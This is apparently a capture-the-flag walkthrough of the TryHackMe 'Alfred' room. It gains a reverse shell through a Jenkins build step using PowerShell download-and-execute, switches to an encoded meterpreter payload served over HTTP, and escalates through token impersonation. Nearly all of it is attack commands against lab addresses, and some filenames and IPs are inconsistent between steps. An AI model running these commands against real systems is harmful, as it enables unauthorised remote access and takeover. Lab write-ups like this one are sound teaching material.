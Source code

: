 # Alfred

**Room Link:** [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

### Initial Access

wget [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)&#x20;

Edit the file and add the following to the end of the file. This is just to make it a bit easier when we use it later.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.135.134 -Port 4444`

**How many ports are open? (TCP only)**

nmap -A 10.10.98.134

**What is the username and password for the log in panel(in the format username:password)**

admin:admin



**Getting shell**

**Kali**

`rlwrap nc -lvnp 4444`

**Jenkins**

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Under Build add a build step and select 'Execute Windows batch command' then  add the following in the command field

`powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.135.134:81/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp`

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### Switching Shells

**Kali**&#x20;

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.135.134 LPORT=1337 -f exe -o shell.exe`

`python2 -m SimpleHTTPServer 81`

**Kali**&#x20;

`msfconsole`

`use exploit/multi/handler`&#x20;

`set PAYLOAD windows/meterpreter/reverse_tcp`&#x20;

`set LHOST 10.10.135.134`&#x20;

`set LPORT 1337`&#x20;

`run`

**Victim**&#x20;

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.8.234:81/shells.exe','shells.exe')"`

`Start-Process "shell.exe"`

<figure><img src="../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

**Victim (Metasploit)**&#x20;

`load incognito`&#x20;

`list_tokens -g`

![](<../../.gitbook/assets/image (17).png>)

`impersonate_token "BUILTIN\Administrators"`&#x20;

`getuid`

We are now NT Authority&#x20;

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Migrating processes to make sure we have correct permissions for the privileged user. The safest process to pick is the services.exe process

`ps`

`migrate 668`

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>
